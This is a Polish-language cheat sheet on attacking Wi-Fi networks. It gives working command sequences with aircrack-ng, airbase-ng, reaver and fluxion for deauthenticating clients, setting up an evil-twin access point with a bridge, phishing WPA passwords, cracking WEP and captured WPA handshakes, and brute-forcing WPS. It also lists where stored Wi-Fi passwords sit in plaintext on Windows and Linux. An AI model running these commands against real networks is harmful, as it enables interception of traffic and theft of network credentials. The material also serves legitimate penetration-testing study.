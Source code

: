 ### Do zainstalowania
* wireshark
* [aircrack-ng](https://www.aircrack-ng.org/)1
* [reaver, wash](http://tools.kali.org/wireless-attacks/reaver)
* [fluxion](https://github.com/deltaxflux/fluxion) - ma sporo zależności


### Podstawy
* budowa ramek 802.11
* protokół połączenia
* konfiguracja karty sieciowej
    ```
    wlp5s0/wlp5s0mon - interfejs bezprzewodowy
    enp2s0 - interfejs po kablu
    at0 - crated by airbase-ng

    # troche informacji
    ifconfig/iwconfig
    iwlist wlp5s0 channel
    ip link show wlp5s0
    iw reg get


    systemctl stop network
    killall wpa_supplicant
    killall dhclient

    ifconfig wlp5s0 down
    iwconfig wlp5s0 mode monitor
    ifconfig wlp5s0 up

    # lub
    airmon-ng check kill
    airmon-ng start wlp5s0
    ```


### Acess-Point scanning
```
#wszystkie AP w zasięgu
iwlist wlp5s0 s

# lub
airodump-ng  wlp5s0 <--essid xxx> <--channel 36> <--write dump_file>

# filtrowanie wireshak
wlan_mgt.ssid == "ESSID/BSSID"
wlan.bssid == mac
wlan.sa == mac

# lub Kismet
```


### deauth
```
aireplay-ng --deauth 0 -a <BSSID> -c <target MAC> wlp5s0
# lub
airdrop-ng -i wlp5s0 -r rule_file
```
* Management Frame Protection


### MITM
* zapamiętane sieci
    ```
    #lista zapamiętanych
    nmcli -p c

    # Na maszynach plaintextem
        Windows:
            xp - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WZCSVC\Parameters\Interfaces
            nowsze - c:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces
        NetworkManager: 
            fedora - /etc/sysconfig/network-scripts/keys-*
            debian/ubuntu - etc/NetworkManager/system-connections/
        wpa_supplicant:
            /etc/wpa_supplicant/wpa_supplicant.conf
    ```

* evil twin
    ```
    # znaleźć MAC ofiary, dane o połączonym AP 
    # wzmocnić kartę (max w Polsce: 20dBm)
        iwconfig wlp5s0 txpower 20
    # postawić nasz fałszywy AP
        airbase-ng -a <BSSID here> --essid <ESSID here> -c <channel here> wlp5s0
    # odłączyć nasz cel (albo wszystkich) od obecnego AP na kilka sekund
    # stworzyć bridge (połączenie z internetem dla ofiary)
        brctl addbr evil
        brctl addif evil enp2s0
        brctl addif evil at0
        ifconfig enp2s0 0.0.0.0 up 
        ifconfig at0 0.0.0.0 up
        ifconfig evil up
        dhclient evil & 
    ```

* fluxion, czyli hasła WPA via phishing
    ```
    git clone https://github.com/deltaxflux/fluxion
    ./Installer.sh
    ./fluxion
    ```


## WEP
* łamanie
    ```
    # odpal interfejs w trybie monitor
    # przetestuj
         aireplay-ng -c <channel> -e <essid> -a <target AP bssid>  wlp5s0mon
    # łap IV
        airodump-ng -c <channel> --bssid <target bssid> -w output wlp5s0mon
    # w osobnym terminalu połącz się z AP (żeby móc tworzyć IV)
         aireplay-ng -1 0 -e <essid> -a <target AP bssid> -h <our MAC> wlp5s0mon
    # rób jeszcze więcej IV via ARP request-replay
         aireplay-ng -3 -b <target AP bssid> -h <our MAC> wlp5s0mon
    # złam klucz bazując na IV
         aircrack-ng -b <target AP bssid> output*.cap
    ```

* łączenie z AP bez hasła
    ```easside-ng```

* nawet lepsze ataki: patrz. wesside-ng


### WPA/WPA2
* tkiptun-ng, docelowo umożliwiający wstrzykiwanie pakietów (https://www.aircrack-ng.org/doku.php?id=tkiptun-ng), lepiej używać AES
* WPA(2) nie zapewnia 'forward secrecy', jeśli znasz hasło/PMK, deszyfrujesz cały ruch
    ```airdecap-ng -l -e <essid> -p <password> sniffed.pcap```
* łamanie słownikowe
    ```
    # automatycznie przechwyć wszystkie handshakes, dodatkowo połam znalezione WEPy ;p
        besside-ng -W -c <channel> -b <target AP bssid> wlp5s0mon
    # teraz wrzuć to na http://wpa.darkircop.org/index.php
    # albo użyj aircrack-ng ze słownikiem
        aircrack-ng -w slownik -b <target AP bssid> wpa.cap
    ```

* Wersja enterprise - bezpieczniejsza


### EAP-MD5 czy EAP-LEAP (złamane)
### RADIUS

### WPS
* Super zue
* łamanie
    ```
    # wykrycie WPS
        wash -i wlp5s0mon -s -C
    # teraz
        reaver -i wlp5s0mon -b <target AP bssid> -vv -d 0 --dh-small
    ```